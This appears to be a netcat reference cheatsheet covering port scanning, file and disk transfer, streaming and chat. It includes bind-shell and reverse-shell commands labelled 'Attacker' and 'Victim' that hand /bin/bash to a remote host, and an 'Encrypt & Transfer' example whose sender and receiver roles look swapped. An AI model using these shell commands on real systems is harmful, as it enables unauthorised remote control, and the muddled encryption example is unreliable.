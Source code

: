 ```
      ___           ___           ___           ___           ___           ___     
     /\__\         /\  \         /\  \         /\  \         /\  \         /\  \    
    /::|  |       /::\  \        \:\  \       /::\  \       /::\  \        \:\  \   
   /:|:|  |      /:/\:\  \        \:\  \     /:/\:\  \     /:/\:\  \        \:\  \  
  /:/|:|  |__   /::\~\:\  \       /::\  \   /:/  \:\  \   /::\~\:\  \       /::\  \ 
 /:/ |:| /\__\ /:/\:\ \:\__\     /:/\:\__\ /:/__/ \:\__\ /:/\:\ \:\__\     /:/\:\__\
 \/__|:|/:/  / \:\~\:\ \/__/    /:/  \/__/ \:\  \  \/__/ \/__\:\/:/  /    /:/  \/__/
     |:/:/  /   \:\ \:\__\     /:/  /       \:\  \            \::/  /    /:/  /     
     |::/  /     \:\ \/__/     \/__/         \:\  \           /:/  /     \/__/      
     /:/  /       \:\__\                      \:\__\         /:/  /                 
     \/__/         \/__/                       \/__/         \/__/                  
```

# Netcat (nc) Cheatsheet

Netcat (`nc`) is a versatile tool for TCP, UDP, and UNIX sockets. It can:
- Establish TCP connections
- Send/receive UDP packets
- Listen on arbitrary TCP/UDP ports
- Perform port scanning
- Handle IPv4 and IPv6

---

## Basic Syntax
```bash
nc [options] [host] [port]
```

---

## Port Scanning & Banner Grabbing
```bash
# Scan ports between 1 and 100
nc -zvn 192.168.59.1 1-100

# Scan ports 80, 22, and 443
nc -zvn 192.168.59.1 80 22 443

# Scan only port 80
nc -zvn 192.168.59.1 80

# Grab banner
nc sysxplore.com 80
```

---

## Downloading Files
```bash
# Sending side
nc -lvp 8888 < data.txt

# Receiving side
nc 192.168.59.3 8888 > data.txt
```

---

## Uploading Files
```bash
# Receiving side
nc -lvp 8888 > data.txt

# Sending side
nc 192.168.59.3 8888 < data.txt
```

---

## Compress & Transfer Directories
```bash
# Sender
tar cf - /backups | compress -c | nc 192.168.59.54 8888

# Receiver
nc -l -p 8888 | uncompress -c | tar xvf -
```

---

## Encrypt & Transfer
```bash
# Sender
nc -l -p 8888 | openssl enc -e -des3 -pass pass:password > creds.txt

# Receiver
openssl enc -d -des3 -pass pass:password | nc 192.168.59.3 8888
```
> **Note**: Netcat transfers are not encrypted by default.

---

## Clone Linux Disk Drive
```bash
# Sender
dd if=/dev/sdb | nc -l -p 8888

# Receiver
nc 192.168.59.3 8888 | dd of=/dev/sdb
```

---

## Remote Shell
```bash
# Server
nc -nlvp 8888 -e /bin/bash

# Client
nc -nv 192.168.59.3 8888
```

---

## Reverse Shell
```bash
# Attacker
nc -nlvp 8888

# Victim
nc 192.168.59.3 8888 -e /bin/bash
```

---

## Video Streaming
```bash
# Server
cat video.avi | nc -nlvp 8888

# Client
nc 192.168.59.3 8888 | mplayer -vo x11 -cache 3000 -
```

---

## Chat App
```bash
# Server
nc -lvp 8888

# Client
nc 192.168.59.3 8888
```

---

## Useful Options
| Option | Description |
|--------|-------------|
| `-4`   | Forces IPv4 addresses only |
| `-6`   | Forces IPv6 addresses only |
| `-l`   | Listen for incoming connections |
| `-v`   | Verbose output |
| `-n`   | Disable DNS resolution |
| `-p`   | Specify source port |
| `-w`   | Set timeout |
| `-u`   | Use UDP instead of TCP |
| `-k`   | Keep listening after disconnect |
| `-z`   | Port scan mode |
| `-h`   | Show help |
| `-x`   | Use proxy |

---

## Reference
**sysxplore.com**  
